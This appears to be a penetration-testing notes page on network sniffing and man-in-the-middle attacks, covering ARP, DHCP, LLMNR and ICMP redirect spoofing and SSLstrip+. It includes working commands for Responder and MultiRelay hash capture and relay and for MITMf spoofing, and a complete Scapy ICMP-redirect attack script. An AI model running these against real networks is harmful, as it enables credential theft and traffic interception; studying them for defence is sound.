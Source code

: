 ## Sniffing

Sniffing is the action to intercept network traffic generated from or directed to a victim. 

### Passive Sniffing

Passive sniffing activities are conducted by just listening to the network without performing any
action.

```bash
# Listen on eth0 interface for everything
tcpdump -i eth0

# Listen for each packet to 10.10.100.1, print the data, the header and each content in ASCII
# with a MTU of 0
tcpdump -xxAXXSs 0 dst 10.10.100.1

# Print verbose output
tcpdump -i eth0 -vvvASs 0 dst 10.10.100.1

# Launch tcpdump loading filters from file
tcpdump -F filters.txt
```

## Man-in-the-Middle

### MAC Flooding

This is an active technique which has the call of filling up the switch's CAM table. This table
keeps the information about which MAC address resides on which port. If the table is full and a new
packet to a MAC address which is not in the table is received, the switch is forced to behave as a
hub and forward the traffic on all the ports. By sending many frames with random MAC addresses
through the switch, the switch will 'learn' these MAC and write them in the table. If the number of
frames is sufficiently high, the CAM table will fill up and the traffic directed toward legitimate
devices will be send in broadcast.

### ARP Poisoning

This is an active technique which abuses the ARP protocol to either mount a MitM attack or to cause
a Denial of Service. In this attack the attacker responds to every ARP request received, therefore
trying to impersonate every device in the network. If the attack is successful, every packet
directed toward any device will be sent first to the attacker device, which can then forward it
to the destination (MitM) or drop it (DoS).

It is possible to also generate gratuitous ARP responses (or requests), in which unsolicited ARP
replies are sent to a destination.

#### Host Poisoning

In this version of the attack, the attacker will try to create a MitM between two hosts. This can be
accomplished for example by sending gratuitous ARP replies to both the hosts.

#### Gateway Poisoning

In this version of ARP poisoning, the attacker will send gratuitous ARP replies to all the hosts (or
some) in the network, announcing his MAC address as the MAC corresponding to the IP of default
gateway.

!!! warning
    In this scenario all the traffic meant for the default gateway will be send first to the
    attacker machine (which then needs to forward it to the gateway unless a DoS is the objective).
    If the attacker device doesn't have sufficient resources, this could cause an inadvertent Denial
    of Service.

### DHCP Spoofing

DHCP Spoofing is an active technique used to mount MitM attack. DHCP communication happens mostly
using broadcast packets, so it is possible to exploit this functionality by responding to any DHCP
discovery packets. Since the criteria used by the client to determine which DHCP offer to choose
(there can be multiple DHCP servers) is the lease time amount (the longer the better), an attacker
can set this lease time very high to make sure that clients will select them. Moreover, DHCP usually
sets also default gateway and DNS servers to use. If the attacker is able to respond to DHCP
discovery packets, then it can also set himself as the default gateway and mount successfully a MitM
attack.

### LLMNR and NBT-NS Spoofing/Poisoning

LLMNR (Link-Local Multicast Name Resolution) is the successor of NBT-NS in aiding with name
discovery in Windows Networks. This attack is usefull to capture NTLMv1, NTLMv2 or LM hashes with a
MitM attack.

Both the mentioned protocols allow for a machine in a Windows network to find another device in case
a DNS request should fail. A usual scenario is a user accessing a non-existing DNS name, for example
with a typo, let's say `//netowrk-share//secret`. The DNS query for `netowrk-share` will fail, as
this host doesn't exist. The machine will fallback into LLMNR to discover the host.
Using tools like [Responder](https://github.com/lgandx/Responder), an attacker can respond to such
message claiming to be `netowrk-share`, so the user will actually contact attacker machine, sending
to it its user and NTLMv1 or NTLMv2 hash.

```bash
# Responder.conf
# SMB = Off
# HTTP = Off
# Start responding to LLMNR 
Responder.py -i eth0 --lm &
# Try to use the hashes collected to login into 10.10.100.1
MultiRelay.py -t 10.10.100.1 -u ALL
```

### SSLstrip and SSLstrip+

SSLstrip is a technique used to intercept and sniff on TLS connections. Assuming that the attacker
successfully mounted a MitM attack, the attack consists of replacing any link that the victim is
trying to acces over HTTPs with HTTP. `sslstrip` can do the work for us, also including a favicon
containing the 'trusted' lock. However, strict transport security header
and in particular the preload list that browsers implement can defeat this attack (HSTS preload
list).
For this reason SSltrip+ technique got introduced. The way this technique works is by adding a
malicious DNS to the ssltrip attack, and redirecting the user to a domain similar to the one that
accessed (e.g., www.faceboook.com rather than www.facebook.com), so that the site in question
won't be on HSTS preload list. In this case the user will establish the connection to the target
over HTTP and with a domain very similar to the one requested, the browser won't force HTTPs and
the traffic can be intercepted.

Tools that implement this technique include `MiTMf`.

```bash
python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway IP --targets IPs
```

### ICMP Redirect

This technique works between a local and a remote target (e.g., a client in the same subnet and a
webserver elsewhere). The idea is to use a ICMP type 5 code 1 packet to signal to a victim's machine
that there is a better gateway to reach the destination. Once received, the victim will start sending traffic through 
the specified gateway.

To mount this attack it might be necessary to also use iptables to perform masquerading, to NAT the
packets coming from the victim with the attacker IP, so that the target will send the answer back to
us and not to the victim (breaking the MiTM).

```
# Here 10.100.13.0 is the network of the victim
# tap0 is the outgoing interface for the traffic
iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE
```

Then we can use Scapy to perform the attack, as this allows to conveniently forge packets as needed.

```
from scapy.all import *
# Creating and sending ICMP redirect packets between these entities:
# Gateway for our network
originalRouterIP='10.100.13.1'
# Our own IP
attackerIP='10.100.13.20'
# Target for the MiTM (i.e., client)
victimIP='10.100.13.126'
# Other target for the MiTM (i.e., server)
serverIP='10.23.56.100'
# Here we create an ICMP Redirect packet
# This has type 5 code 1, which is a redirect with a payload which means
#   Gateway Internet Address
#      Address of the gateway to which traffic for the network specified
#      in the internet destination network field of the original
#      datagram's data should be sent.
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# This is a TCP packet that fakes the continuation of the communication that
# will be hijacked by the previous packet
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
# Launch the attack
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
```


